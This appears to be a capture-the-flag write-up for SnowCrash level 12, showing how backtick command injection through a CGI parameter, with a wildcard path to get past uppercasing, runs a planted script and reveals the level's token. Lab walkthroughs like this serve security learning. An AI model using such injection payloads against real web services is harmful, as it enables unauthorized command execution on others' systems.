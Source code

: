 # Level12

We have a CGI running on port 4646.
It applies transformation on the `x` param and then uses it for a grep on `/tmp/xd`.
We can probably insert a shell command in the first argument using backticks.
However, since several transformation are made on our input, we have to bypass them.
Lets create a file named in uppercase in which our exploit will be written.
```shell
level12@SnowCrash:~$ echo "getflag > /tmp/flag12" > /tmp/EXPLOIT
```

Then to call our `EXPLOIT` we have to provide the absolute path but the path will be modified
by the script by switching to uppercase every characters. We can use a wildcard to point to our `EXPLOIT`
```shell
level12@SnowCrash:~$ curl 'localhost:4646/level12.pl?x=`/*/EXPLOIT`'
..level12@SnowCrash:~cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```